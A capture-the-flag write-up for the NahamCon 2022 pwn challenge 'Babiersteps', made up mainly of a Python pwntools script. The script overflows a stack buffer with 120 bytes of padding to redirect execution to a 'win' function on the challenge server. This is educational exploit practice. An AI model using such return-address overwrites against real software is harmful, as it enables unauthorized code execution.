 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2022 | Babiersteps Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2022
parent: nahamcon_2022
category: pwn
challenge: Babiersteps
tags: "pwn, twh, python"
---
```


<h1 class="heading card-title white-text">Nahamcon 2022</h1>

## Babiersteps
> Solved By : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'challenge.nahamcon.com'
port = 32628

offset = 120
junk = b'A' * offset
win_addr = 0x4011c9

le_win_addr = p64(win_addr, endianness='little')
payload = junk + le_win_addr

conn = remote(host, port)
conn.recv(1024)
conn.sendline(payload)
conn.interactive()
conn.close()
```

![](https://i.imgur.com/oGDnIF7.png)